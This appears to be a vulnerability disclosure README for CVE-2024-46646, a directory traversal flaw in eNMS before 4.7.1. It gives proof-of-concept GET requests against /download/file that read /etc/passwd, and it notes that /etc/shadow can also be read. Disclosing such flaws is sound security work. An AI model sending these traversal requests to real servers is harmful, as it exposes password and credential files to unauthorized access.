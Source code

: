 # **CVE-2024-46646**



# Details
* **Vulnerability Type**: eNMS < 4.7.1 Directory Traversal via /download/file
* **Affected Application**: eNMS
* **Affected Versions**: < 4.7.1
* **Affected Component**: /download/file/[DIR]/[FILE]
* **Impact**: Unauthorized access to sensitive files, potential exposure of confidential information.

# PoC
##  ```GET /download/file/>[DIR]/>[FILE]```

Another vulenrable parameter was found in the request for downloading an existing file in the folders.
Using the same method explained above, you can read any file you have access to.

**v4.4.0**
```
GET /download/file/>etc/>passwd
```
**v4.7.1**
```
GET /download/file/file_transfer/../../../../etc/passwd
```

Reading ```/etc/passwd``` file:

![image](img/461.png)

Reading ```/etc/shadow``` file (depending on the process execution rights)
:

![image](img/4622.png)
# References
https://nvd.nist.gov/vuln/detail/CVE-2024-46646 <br>
https://cve.mitre.org/cgi-bin/cvename.cgi?name=2024-46646 <br>
# Credits
**Andrea Pessione** and **Manuel Scala** - SK IT Cyber Security<br></br>
<a href="https://sk-it.com/"><img src="img/skit_logo.png" width="300">
